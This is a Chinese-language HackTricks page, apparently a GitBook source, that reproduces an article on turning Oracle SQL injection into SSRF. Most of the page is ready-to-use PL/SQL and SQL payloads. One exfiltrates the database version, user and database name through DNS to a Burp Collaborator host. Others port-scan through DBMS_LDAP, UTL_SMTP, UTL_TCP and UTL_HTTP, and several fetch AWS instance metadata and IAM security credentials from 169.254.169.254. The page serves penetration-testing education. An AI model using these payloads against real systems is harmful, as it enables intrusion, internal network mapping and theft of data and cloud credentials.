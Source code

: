 # Oracle injection

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

**为这篇文章提供一个来自 [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/) 的已删除文章的 Wayback Machine 副本**。

## SSRF

使用 Oracle 进行带外 HTTP 和 DNS 请求的文档非常齐全，但作为在注入中提取 SQL 数据的一种手段。我们总是可以修改这些技术/函数来执行其他 SSRF/XSPA。

安装 Oracle 可能非常痛苦，特别是如果你想快速设置一个实例来尝试命令。我的朋友和同事在 [Appsecco](https://appsecco.com)，[Abhisek Datta](https://github.com/abhisek)，向我推荐了 [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c)，这让我能够在 t2.large AWS Ubuntu 机器和 Docker 上设置一个实例。

我使用 `--network="host"` 标志运行 docker 命令，以便在这篇博客文章的过程中模拟 Oracle 作为一个具有完全网络访问权限的本地安装。
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### 支持 URL 或主机/端口号规范的 Oracle 包 <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

为了找到支持主机和端口规范的任何包和函数，我在 [Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html) 上进行了 Google 搜索。具体来说，
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
搜索返回了以下结果（并非所有结果都可以用于执行出站网络）

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

这个粗略的搜索显然跳过了像 `DBMS_LDAP` 这样的包（它允许传递主机名和端口号），因为 [文档页面](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) 只是将您指向 [不同的位置](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360)。因此，可能还有其他可以被滥用以进行出站请求的Oracle包，我可能遗漏了。

无论如何，让我们看看我们发现并列出的其中一些包。

**DBMS\_LDAP.INIT**

`DBMS_LDAP` 包允许访问来自LDAP服务器的数据。`init()` 函数初始化与LDAP服务器的会话，并将主机名和端口号作为参数。

这个函数之前已经被记录下来，以显示通过DNS的数据外泄，如下所示。
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
然而，考虑到该函数接受主机名和端口号作为参数，您可以利用这一点使其像端口扫描器一样工作。

以下是一些示例
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
A `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` 表示端口关闭，而会话值指向端口为开放状态。

**UTL\_SMTP**

`UTL_SMTP` 包用于通过 SMTP 发送电子邮件。 [Oracle 文档网站上提供的示例展示了如何使用此包发送电子邮件](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478)。 然而，对我们来说，值得注意的是提供主机和端口规范的能力。

下面是一个粗略的示例，使用 `UTL_SMTP.OPEN_CONNECTION` 函数，超时为 2 秒。
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
一个 `ORA-29276: transfer timeout` 显示端口是开放的，但没有建立SMTP连接，而 `ORA-29278: SMTP transient error: 421 Service not available` 显示端口是关闭的。

**UTL\_TCP**

`UTL_TCP` 包和它的过程与函数允许与服务进行 [基于TCP/IP的通信](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190)。如果为特定服务编程，这个包可以轻松成为进入网络的方式或执行完整的服务器端请求，因为可以控制TCP/IP连接的所有方面。

在Oracle文档网站上的示例 [展示了如何使用这个包建立原始TCP连接以获取网页](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190)。我们可以稍微简化一下，使用它向元数据实例或任意TCP/IP服务发出请求。
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
有趣的是，由于能够构造原始 TCP 请求，这个包也可以用于查询所有云提供商的实例元数据服务，因为方法类型和附加头信息都可以在 TCP 请求中传递。

**UTL\_HTTP 和 Web 请求**

也许在所有的离带 Oracle SQL 注入教程中，最常见和广泛记录的技术是 [`UTL_HTTP` package](https://docs.oracle.com/database/121/ARPLS/u\_http.htm#ARPLS070)。该包在文档中定义为 - `UTL_HTTP 包从 SQL 和 PL/SQL 发起超文本传输协议 (HTTP) 调用。您可以使用它通过 HTTP 访问互联网上的数据。`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
您还可以使用此功能执行一些基本的端口扫描，查询如下：
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
`ORA-12541: TNS:no listener` 或 `TNS:operation timed out` 是 TCP 端口关闭的迹象，而 `ORA-29263: HTTP protocol error` 或数据则是端口开放的迹象。

我过去使用过的另一个包，成功率各异，是 [`HTTPURITYPE` Oracle 抽象类型的 `GETCLOB()` 方法](https://docs.oracle.com/database/121/ARPLS/t\_dburi.htm#ARPLS71705)，它允许您与 URL 交互并支持 HTTP 协议。`GETCLOB()` 方法用于从 URL 获取 GET 响应，作为 [CLOB 数据类型。](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
